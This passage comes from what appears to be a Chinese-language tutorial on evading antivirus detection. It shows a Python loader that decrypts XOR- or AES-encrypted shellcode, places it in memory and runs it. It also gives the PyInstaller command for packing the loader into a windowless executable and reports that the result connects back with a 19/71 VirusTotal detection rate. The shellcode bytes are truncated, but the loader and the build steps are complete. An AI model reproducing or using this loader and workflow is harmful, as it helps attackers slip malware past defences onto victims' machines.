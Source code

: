 ```

if __name__ == '__main__':

	encryptedShellcode = ("\xaf\xac\xda\x91\...")
	key = "tidesec"
	cipherType = "xor"

	# Decrypt the shellcode
	if cipherType == 'xor':
		shellcode = xor(bytearray(encryptedShellcode), key)
	elif cipherType == 'aes':
		key = base64.b64decode(key)
		shellcode = aesDecrypt(encryptedShellcode, key)
	else:
		print "[ERROR] Unknown cipher type"

	# Copy the shellcode to memory and invoke it
	memory_with_shell = create_string_buffer(shellcode, len(shellcode))
	shell = cast(memory_with_shell,CFUNCTYPE(c_void_p))
	shell()
```
使用pyinstaller编译：

```
python pyinstaller.py --onefile --noconsole encryptedShellcodeWrapper_xor.py
```

编译执行，可上线，virustotal.com上查杀率19/71

![616641780f9e39cdae5a13da8dd5805e](images/2020.04-bypass-05/16.png)

## 2.6 方法6：aes加密(VT免杀率19/71)

这个和上面的方法5：xor加密一样，需要使用一个工具`https://github.com/Arno0x/ShellcodeWrapper`
